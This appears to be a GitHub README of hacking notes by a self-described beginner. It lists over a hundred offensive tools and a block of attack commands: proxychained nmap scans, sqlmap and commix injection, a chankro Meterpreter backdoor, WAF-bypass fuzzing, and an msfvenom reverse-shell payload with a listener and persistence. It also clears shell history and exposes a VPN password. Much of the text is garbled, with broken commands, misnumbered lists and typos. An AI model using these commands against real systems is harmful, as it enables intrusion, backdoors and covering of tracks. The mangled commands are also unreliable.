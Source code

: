 <h1 align="center">Internet Safety</h1>
B2G: NIST[180025,800171,800172,80053,CSF], KISMS, BNMRMiT, NZISM, GxPEUAnnex11, CCCS, 
GrammLeachBlileyAct, NERCCIPBCSI, PCIDSS, MASTRMG, ACSCISM, APRACPG234, CMMC[Level1-5], 
NCSCCAF, FFIEC, HIPAA, CCNENS, NYDFS23NYCRR500, ENISACybersecurityGuide, ABSCCIGv2,
RBIMasterDirection, FedRAMP, MASNotice655, BCPandDR, CISACyberEssentials, NBCTRMG,
FDA21CFRPart11, CISAWSFBv1.3, ACSCISM, ACSCEssential8, NCSCCloudSecPrinciples.

January 3, 2020. 111 broken apps. : 17 successful hacking apps. No previous knowledge about IT before. Script Kiddie. Prevention: [ ESLint, IDE plugins, and GitHub Actions ], [ MFA, password rotation, and separate browsers ], [ Black list, SPF, DKIM, and DMARC ].

1. Metasploit-framevork 2. Recon-ng 3. BabySploit 4. Dirbuster 5. Grabber 6. BurpSuite 7. Golismero 8. MITRT 9. Tornado 10. Weevely 
11. WPScan 12. theHarvester 13. theMole 14. Yasuo 15. Lazy 16. Katoolin 17. DVWA 18. Corsy 19. Armitage 20. BeEF 21. Eaphammer 
22. Fluxion 23. Gophish 24. Ngrok 25. Pdfbook 26. Sqid 27. Autopsy 28. Binwalk 29. Bulk_extractor 30. Dradis 31. Dmitry 32. Magic-Tree 
33. Facebookosint 34. Facebook-Location 35. Creepy 36. Ferret 37. Hamster-sidejack 38. Vulnhub 39. Airgeddon 40. Airoscript 41. Catphish 
42. Xsser 43. XSpear 44. Crackle 45. Crunch 46. Dawnscanner 47. Wafp 48. Dirb 50. Exploitpack 51. Fierce 52. Fimap 53. Foremost 
54. Galleta 55. Giskismet 56. Httrack 57. OpenVAS  58. Maltego 59. Tor 60. I2P 61. ParamPamPam 62. Photos 63. Rekall 64. Scapy 
65. Scrapy 66. SMTP2GO 67. TheFatRat 68. U3-Pwn 69. Usbris 70. Vega 71. Valnx 72. Volatility 73. W3af 74. W13Scan 75. Webhandler 
76. WebSlayer 77. Websploit 78. WhatBreach 79. XssScan 80. Weeman 81. Spiderfoot 82. Dnmap 83. Automater 84. Arachni 85. Gobuster 
86. ProxyStrike 87. Webshag 88. DotDotPwn 89. Skipfish 90. Cups 91. Spf 92. WhatWeb 93. Pwnat 94. DNSChef 95. Parsero  96. XssStrike  
97. Xplico 98. OSIF 99. DNSRecon 100. Wafw00f 101. Masscan 102. Legion 103. Iodine 104. Cadaver 105. Laudanum 106. Hfind FLS 107.
98. InSpy 108. OSINT-Spy 109. ReconCobra 110. Inquisitor 111. PhoneInfoga 112.

What worked for me with USB boot. 1. Remot3d, 2. IndoXploit, 3. XAttacker, 4. SQLMap, 5. Pappy, 6. Mitmproxy, 7. Arjun, 8. Commix, 9. Autosploit, 10. Witchxtool, 11. Mitmweb, 12. Poly, 13. Parameth, 14. Docem, 15. Chankro, 16. Wafninja, 17. Wafpass
```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
id && pwd && uname -a && ip -br a
nano /esc/proxychains.com #dynamic_chain
socks4 lp port

openvpn -config vpnbook-usl-tcp443.ovpn
User vpnbook Word 2k3a6rw
cat /dev/null > /root/bash_history && history -c && exit
add-on user-agent switcher
add-on cookie-editor && ghostery

chmod 755 xampp* && /xampp
/opt/lampp/lampp start
cd /opt/lampp 8&& /manager* && localhost
alias xpe//opt/ampp/lampp.stant"
source.bash_allases

Nmap på 148 targets tar 150 minutes.
proxychains nmap -IL ips.ixt-oG - I nikto -host -
localhost/phpmyadmin
CREATE TABLE -
nano /opt/lampp/htdocs/data.php
sqlmap -wizard
perl XAttacker.pl -l /root/ip.txt

~/.pappy/certs/server.pem > firefox
-/mitmproxy > *cert.pem firefox > preferens > ca > view > import > *pem
mitmweb && firefox 127...:8080
lsof -i:8080 && kill-9296
netstat -aon
mitmproxy -w wtf.mitm
nikto -host localhost/data.php -useproxy 127...:8080
pydoc3 mitmproxy.http
curl -T demo.php --url data.php -proxy localhost:8080 -I > PUT

VM > NAT > PF > Host > PHP Cookies
nmap -sV -O 10.0.2.2 -oX nx.xml
nvd.nist.gov | cpe:a:mysql:5.5.5
sploitus.com | CVE-2019-2822
curl --data "name=Daniel&weight-6666" -X POST http://localhost/ajax/ --proxy ::1:80
mitmproxy > e > vim > :wq /tmp/mi22 > ascii, CRLF, request headers

disk -l && umask 000 && touch /tmp/sys...
ls -ld /tmp/sys...
setfacl -b /tmp && getfacl /tmp
grep - acl /boot/config*
apt-get install nfs4-acl-tools-acl
mount | grep -i root && chmod -R a-w /var
chmod u=rwx, g=rwx, o=rwx /var
adduser -home /dragonfly dragonfly
getent group dragonfly   #  visar /etc/group
usermod -aG sudo dragonfly
gpasswd -a dragonfly 
sudo mv dawn* /dragonfly && ssl -l dragonfly
bundle install && rake install

python3 arjun.py -u http://localhost/ajax/
commix --url="http//localhost/ajax/" -file-write=/root/Pictures/kali.png  --file-dest=uploads/ --data="name=Fawkes&email=fox@gmail.com8submit=submit" -cookie=tvisited=94..23c" --proxy="httpc/127.0.0.1:8080/" 
./parameth.py -u http://localhost/act.php
commix --url="http://localhost/demo.php --data="name=fun&weight=fun" --web-root=/opt/lampp/

pip2 install -r requirements.txt
docker-compose run -fin autosploit # debt/ops/
openssl req -newkey rsa:2048 -nodes -keyout gophish.key -x509 -days 365 -out gophish.crt
pip install beautifulsoup4 requests
apt-get install libcurl4-openssl-dev
make && payloadmask
perl -MCPAN -e'install YAML.::XS'
apt-file update
apt-file search Net/RawlP.pm
apt-get install libnet-rawip-perl
perl witchxtool.pl

poly.py -c php -e b64 -p SHELL -j
docem.py -5 samples/xxe/sample_oxml_xxe_mod0/ -pm XSS -pf payloads/xss_all.txt -pt per_document -kt -sx docx
chankro.py --arch 64 --input METER --output back.php
bash Remot3d IndoXploit th3_p4ssw0rd_l0ck3
make && gcc -Wall -Wextra -o drink me.c
cat hello_world.x86_64 | ./drinkme
wafninja.py fuzz -u "http://localhost/action.php?id=FUZZ/" -c "phpsessid=value" -t xss -o output.html
wafpass.py --url http://localhost/action.phpPname=fun8oweigth=fun

scrapy genspider -t crawl exam coinbase.com
scrapy crawl quotes -O q.json -a tag=humor scrapy shell 'url' file.html \
text response.css("span.text::text").getall()
quotesbot|scrapy toscrape-css -o q.json
scrapy fetch -nolog --headers url
```
msfconsole is a toolkit for embedding payloads to induce reverse shell of binaries. See more in exploit-db.com, searchsploit, msfvenom, setoolkit and u3-pwn. Firewalls are his enemy. Payload: Binary connection in reverse. Exploit: Virus that bring shell if executed. Encoder: Padding zeros in binary tails. Fuzzer: Overflow apps to crash with ICMP packets. LPORT: netcat -l 80 or apache2 start. RPORT: 22 with SSH mitm attack. Commands: use - multi/handler is a listener, show, set, exploit. PostgreSQL inside RDS, msfdb init, db_rebuild_cache. 

metasploitable 3 in virtualbox && msfvenom -p linux/x86/shell/reverse_tcp LHOST=ip LPORT=80 -e ruby/base64 -f bash -n 26 > install.sh
msfconsole, use exploit/multi/handler, set payload linux/x86/shell/reverse_tcp, show options, set LHOST=ip, exploit,, run persistence -h   

1. 746 issues, Gemfile.lock nokogiri. 2. API not worth the cost 3. Minimal function/limited 4. Java
5. Minimal function/limited 6. Java 7-9. Too many dependencies 10. System collapse 11. Gemfile.lock
12. Minimal function 13. Machinery module not exist 14. Syntax error 15. Dependencies ... 16. /apt/sources.list
17. Deletes mysql.socket 18. Syntax error 19. Based on Metasploit 20. Browser is not on the panel, packet storm
21. Hostapd, no pem, certificate problem 22. Mdk3, fake AP. packet storm 23. Config.json gulp. not online
24. API not worth the cost 25. Syntax error 26. /apt/sources.list 27-32. Minimal function 33-34. Syntax error
30. Dependencies 35. System collapse 36-37. Pipe kollaps 38. Too big for virtualbox 39. Dependencies 
40. System collapse 41. Nokogiri, Trollo API for trollop 42. Syntax error 43. Bundle install, Gemfile lock 
44. System collapse 45. Minimal function 46. Bundle install, Gemfile.lock 47. Syntax error 48. Wordlists 
49. unknown (x) 50. Java 51. Minimal function 52. Based on Metaspioit 53. Minimal function 54. unknown (x) 
55. Based on Kismet, drive routine error 56 Too old 57. Certificate error, resembles BeEF / BurpSuite
58. API not worth the cost 59-60. Too old 61. Error in GET 62. AttributeError 63 Virtualenv 
64. Six module not exist 65. No Sphinx module 66. Too old 67. Java 68. unknown (x) 69. Virtualenv 
70. 349 issues, Gemfile.lock 71. AttributeError 72. Too old 73-80. System collapse 81. Too old 
82. Minimal function 83. Based on Metasploit 84. API not worth the cost 85. SSL issues 86. Java 
87. System collapse 88. Syntax error 31. Minimal function 89. MIME db is deprecated 90. Unknown (x) 
91. Too old 92. SSL issues  93. Stdlib.h (c++) not exist 94 TypeError between 'str' och 'bool' 95 Too old  
96. TypeError not supported for signing 97. GeoLite mmdb not exist, HTTP 404 98. Minimal function 

